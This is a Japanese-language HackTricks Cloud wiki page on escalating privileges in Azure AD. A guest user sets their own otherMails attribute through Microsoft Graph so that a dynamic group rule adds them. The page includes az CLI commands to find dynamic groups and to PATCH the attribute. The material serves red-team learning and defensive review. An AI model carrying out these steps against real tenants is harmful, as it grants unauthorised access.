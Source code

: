 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

**ダイナミックグループ**は、設定された**ルール**のセットを持つグループであり、ルールに一致するすべての**ユーザーまたはデバイス**がグループに追加されます。ユーザーまたはデバイスの**属性**が**変更**されるたびに、ダイナミックルールが**再確認**されます。また、**新しいルール**が**作成**されると、すべてのデバイスとユーザーが**確認**されます。

ダイナミックグループには**Azure RBACロール**を割り当てることができますが、**AzureADロール**をダイナミックグループに追加することは**できません**。

この機能にはAzure ADプレミアムP1ライセンスが必要です。

## プライベートエスカレーション

デフォルトでは、任意のユーザーがAzure ADでゲストを招待できるため、ダイナミックグループの**ルール**が**属性**に基づいてユーザーに**権限**を与える場合、新しい**ゲスト**でこの属性を**設定**して**ゲストを作成**し、**権限を昇格**させることが可能です。また、ゲストは自分のプロフィールを管理し、これらの属性を変更することも可能です。

ダイナミックメンバーシップを許可するグループを取得する: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### 例

* **ルールの例**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **ルールの説明**: 文字列 'security' を含む二次メールを持つゲストユーザーはグループに追加されます。

ゲストユーザーのメールについて、招待を受け入れ、[https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView)で**そのユーザー**の現在の設定を確認します。\
残念ながら、ページでは属性値を変更することができないため、APIを使用する必要があります：

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## 参考文献

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

